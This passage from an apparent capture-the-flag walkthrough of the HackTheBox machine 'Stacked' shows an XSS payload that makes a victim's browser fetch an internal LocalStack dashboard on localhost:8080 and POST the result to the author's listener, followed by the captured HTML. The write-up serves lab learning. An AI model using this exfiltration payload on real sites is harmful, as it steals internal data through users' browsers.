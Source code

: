 Since all of those services are listening on localhost, only if there’s something forwarding the port on can I access it. Given that Apache is hosting the web server, it seems that requests to `s3-testing.stacked.htb` are being sent to the LocalStack container. But I haven’t found anything forwarding to the dashboard on 8080.

#### Dashboard

For this to work, I need to prove the dashboard exists. I’ll create another XSS payload to try to fetch and return the it:

```

var mail1req = new XMLHttpRequest();    
mail1req.onreadystatechange = function() {    
  if (mail1req.readyState == 4) {    
    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
    exfilreq.send(mail1req.response);    
  }    
};    
mail1req.open('GET', 'http://localhost:8080/', false);    
mail1req.send();   

```

It does…but the page is not complete - Where I would expect to find the body is just this:

```

...[snip]...
<div id="page" class="fullsize">
  <!-- Header -->
  <header id="header" role="banner" style="position: absolute;
      top: 0px; width: 100%; border-bottom: 1px solid #aaaaaa; background: #fafaf4">
    <nav class="aui-header aui-dropdown2-trigger-group" role="navigation">
      <div class="aui-header-inner">
        <div class="aui-header-primary">
          <h1 id="logo" class="aui-header-logo aui-header-logo-textonly">
                        <span class="aui-header-logo-device">
                <img src="img/localstack_small.png" style="height: 30px; padding: 2px; margin-right: 10px;"/>
              </span>
          </h1>
        </div>
      </div>
    </nav>
  </header>

  <!-- Content -->
  <section id="content" role="main" ui-view class="fullsize" style="position: absolute; top: 0px; padding-top: 40px; z-index: 1"> </section>

</div>
...[snip]...

```
